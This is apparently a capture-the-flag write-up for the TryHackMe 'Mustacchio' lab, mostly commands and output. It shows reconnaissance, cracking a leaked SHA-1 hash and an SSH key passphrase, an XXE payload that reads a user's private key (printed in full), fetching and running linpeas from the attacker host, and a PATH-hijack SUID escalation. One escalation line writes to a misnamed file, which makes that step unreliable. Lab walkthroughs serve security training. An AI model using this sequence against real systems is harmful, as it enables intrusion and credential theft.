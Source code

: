 https://tryhackme.com/room/mustacchio
>IP:10.10.17.215

# RECON
```
nmap -p- -sS 10.10.17.215 -vv   
sudo nmap 10.10.17.215 -sC -sV -p22,80,8765 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 06:03 EDT
Nmap scan report for 10.10.17.215
Host is up (0.077s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://10.10.17.215/index.html
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-0113-02-59.png)

```
ffuf -u http://10.10.17.215/FFUZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -ic -c  
images 
custom 
fonts
```

![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-0113-05-47.png)

## users.bak
```
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b 
```
```
nth --text "1868e36a6d2b17d4c2745f1659433a54d4bc5f4b" 

SHA-1, HC: 100 JtR: raw-sha1 Summary: Used for checksums.See more
HMAC-SHA1 (key = $salt), HC: 160 JtR: hmac-sha1
Haval-128, JtR: haval-128-4
RIPEMD-128, JtR: ripemd-128
```

```
hashcat -h | grep "SHA"  
    100 | SHA1                                                       | Raw Hash
```
```
hashcat -m 100 '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```

http://10.10.17.215:8765/
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-0113-12-22.png)


```
admin:bulldog19  
```

# XXE
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-0113-27-00.png)

ffuf -u http://10.10.17.215:8765/FFUZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -ic -c  

/auth/dontforget.bak
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>       
```

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

```
ssh2john key > key_hash.txt
```

```
john key_hash.txt --wordlist= /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt 
```

urieljames
# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.23.87.78/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

## SUID 
```
/home/joe/live_log
```

```
export PATH=/tmp:$PATH
```

```
echo '#!/bin/bash' > /tmp/tail
echo "chmod u+s /bin/bash" >> /tmp/tailcp
chmod +x /tmp/tail
```

```
./home/joe/live_log
/bin/bash -p
```